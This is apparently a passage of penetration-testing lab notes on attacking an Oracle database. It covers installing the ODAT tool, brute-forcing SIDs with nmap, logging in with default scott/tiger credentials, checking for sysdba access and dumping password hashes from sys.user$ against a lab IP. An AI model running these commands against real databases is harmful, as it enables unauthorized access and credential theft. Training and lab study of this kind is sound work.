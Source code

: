     sudo pip3 install colorlog termcolor passlib python-libnmap
    sudo apt-get install build-essential libgmp-dev -y
    pip3 install pycryptodome
    ```

    ```sh
    # to test installation
    ./odat.py -h
    ```
  
  * ODAT (Oracle DB Attacking Tool) can be used to enumerate and exploit Oracle DB vulnerabilities

  * footprinting:

    ```sh
    sudo nmap -p1521 -sV 10.129.204.235 --open

    # SID - system identifier
    # used in Oracle RDBMS to identify DB instances

    # bruteforce SIDs using nmap
    sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute

    # run all modules in odat
    ./odat.py all -s 10.129.204.235

    # if we have valid creds
    # connect to Oracle DB
    sqlplus scott/tiger@10.129.204.235/XE

    # in SQLplus
    select table_name from all_tables;

    select * from user_role_privs;

    # we can also test if a certain user has sysdba access
    # for higher privilege
    sqlplus scott/tiger@10.129.204.235/XE as sysdba

    # if our user has enough privileges, we can extract hashes from database
    select name, password from sys.user$;
